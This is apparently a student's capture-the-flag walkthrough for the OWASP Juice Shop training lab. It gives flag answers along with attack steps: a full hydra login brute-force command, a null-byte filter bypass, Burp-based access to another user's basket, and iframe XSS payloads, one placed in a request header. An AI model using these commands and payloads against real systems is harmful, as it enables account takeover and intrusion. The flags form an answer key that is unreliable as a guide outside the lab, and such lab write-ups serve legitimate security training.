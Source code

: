 # OWASP Juice Shop

# Task 1: Let's go on an adventure! 

```Question #1: What's the Administrator's email address?
Doing an application walkthrough I got the information
--> admin@juice-sh.op
```
```Question #2: What parameter is used for searching? 
--> Q
```
```Question #3: What show does Jim reference in his review? 
--> star trek
```
# Task 2 : Inject the juice 
```Question #1: Log into the administrator account!
--> 32a5e0f21372bcc1000a6088b93b458e41f0e02a
```
```Question #2: Log into the Bender account!
---> fb364762a3c102b2db932069c0e6b78e738d4066
```

# Task 4 Who broke my lock?! 
```Question #1: Bruteforce the Administrator account's password!

I used hydra for this to get the password

aaron@aaron-VirtualBox:~/thm/owasp_juice_shop$ sudo hydra -l admin@juice-sh.op -P /home/aaron/SecLists/Passwords/Common-Credentials/best1050.txt 10.10.249.34 http-post-form "/rest/user/login:email=^USER^&password=^PASS^:Invalid Email or password." -V

----> [80][http-post-form] host: 10.10.249.34   login: admin@juice-sh.op   password: admin123


upon logging in to the admin account i get the flag, yey
--- > c2110d06dc6f81c67cd8099ff0ba601241f1ac0e
```
```Question #2: Reset Jim's password!
 jim@juice-sh.op
---> 094fbc9b48e525150ba97d05b942bbf114987257
```
# Task 5 AH! Don't look! 

```Question #1: Access the Confidential Document!
 go to http://10.10.249.34/ftp/legal.md
 --> edf9281222395a1c5fee9b89e32175f1ccf50c5b
```
```Question #2: Log into MC SafeSearch's account!

He notes that his password is "Mr. Noodles" but he has replaced some "vowels into zeros", meaning that he just replaced the o's into 0's.

We now know the password to the mc.safesearch@juice-sh.op account is "Mr. N00dles"
---> 66bdcffad9e698fd534003fbb3cc7e2b7b55d7f0

Question #3: Download the Backup file!

To get around this, we will use a character bypass called "Poison Null Byte". A Poison Null Byte looks like this: %00. 

Note: as we can download it using the url, we will need to encode this into a url encoded format.

The Poison Null Byte will now look like this: %2500. Adding this and then a .md to the end will bypass the 403 error!

Why does this work? 

A Poison Null Byte is actually a NULL terminator. By placing a NULL character in the string at a certain byte, the string will tell the server to terminate at that point, nulling the rest of the string. 

---> b0fc1e6b4a16579e85e06fee4c36ff8c02fb13795
```
# Task 6 Who's flying this thing? 
```Question #1: Access the administration page!
--> 946a799363226a24822008503f5d1324536629a0
```

```Question #2: View another user's shopping basket!
using burpsuite I change the headers to basket2
--> 41b997a36cc33fbe4f0ba018474e19ae5ce52121
```
```Question #3: Remove all 5-star reviews!
--> 50c97bcce0b895e446d61c83a21df371ac2266ef
```
# Task 7 Where did that come from? 

```Question #1: Perform a DOM XSS!
<iframe src="javascript:alert(`xss`)"> 
	9aaf4bbea5c30d00a1f5bbcfce4db6d4b0efe0bf
````

```Question #2: Perform a persistent XSS!
using burpsuite i added this header in the http request
True-Client-IP	<iframe src="javascript:alert(`xss`)">
--> 149aa8ce13d7a4a8a931472308e269c94dc5f156
```
```Question #3: Perform a reflected XSS!

i used this command to get the flag
<iframe src="javascript:alert(`xss`)"> 
in the place of the 5267-f73dcd000abcc353
---> 23cefee1527bde039295b2616eeb29e1edc660a0
````
